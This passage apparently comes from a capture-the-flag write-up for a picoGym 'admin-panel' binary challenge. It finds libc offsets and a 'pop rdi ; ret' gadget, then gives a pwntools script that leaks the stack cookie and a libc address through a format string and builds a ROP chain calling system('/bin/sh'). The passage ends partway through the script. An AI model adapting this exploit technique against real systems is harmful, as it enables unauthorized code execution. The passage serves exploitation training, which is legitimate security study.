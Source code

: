 `system` is at offset `0x44af0`. Let's save it
```python
system_offset = 0x44af0
```

![admin-panel9](/assets/img/picogym-pwn-easy/admin-panel/admin-panel9.png)

`"/bin/sh"` is at offset `18052c`
```python
bin_sh_offset = 0x18052c
```

So we know the address of system and the address of the string "/bin/sh". However, we need to put the string "/bin/sh" into the register `rdi` when calling for the `system` function. We can achieve that using ROP. Let's look for some gadgets using ROPgadget

The command is: `ROPgadget --binary libc.so.6 --ropchain | grep "pop rdi"` \
`[+] Gadget found: 0x23a5f pop rdi ; ret` \
Let's also save it:
```python
pop_rdi_ret_offset = 0x23a5f
```

Nice! That's everything we need :)

In conclusion, we are filling the entire `report` buffer, overwriting the stack cookie, putting anything into the `rbp` register, overwriting the return address with the `pop rdi ; ret` instruction to put the `"/bin/sh"` string into the `rdi` register, putting the `"/bin/sh"` address (the libc entrypoint + the offset we found) right after it so that `pop rdi` works fine, and then putting the `system` address (the libc entrypoint + the address we found) after it so that `ret` returns to it :)

This is my solution for this challenge:
```python
from pwn import *

libc_start_main_offset = 0x000000000002409b
pop_rdi_ret_offset = 0x23a5f
system_offset = 0x44af0
bin_sh_offset = 0x18052c

p = process("./admin-panel_patched")
p.recvline()
p.recvline()
p.sendline(b"admin")
p.recvline()
p.sendline(b'secretpass123aaaaaaaaaaaaaaaaaaa%15$p,%17$p')
p.recvline()

leak_addr = p.recvline().decode()[:-1].split(',')
stack_cookie = int(leak_addr[0], 16)
libc_leak = int(leak_addr[1], 16)
print(f"stack cookie is: {hex(stack_cookie)}")
print(f"leaked address is: {hex(libc_leak)}")

libc_entrypoint = libc_leak - libc_start_main_offset
pop_rdi_ret = libc_entrypoint + pop_rdi_ret_offset

payload = b'aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaa'
payload += p64(stack_cookie)
payload += p64(0xdeadbeef)
payload += p64(pop_rdi_ret)
payload += p64(bin_sh_offset + libc_entrypoint)
payload += p64(system_offset + libc_entrypoint)

p.recvuntil(b'2 or 3:')
```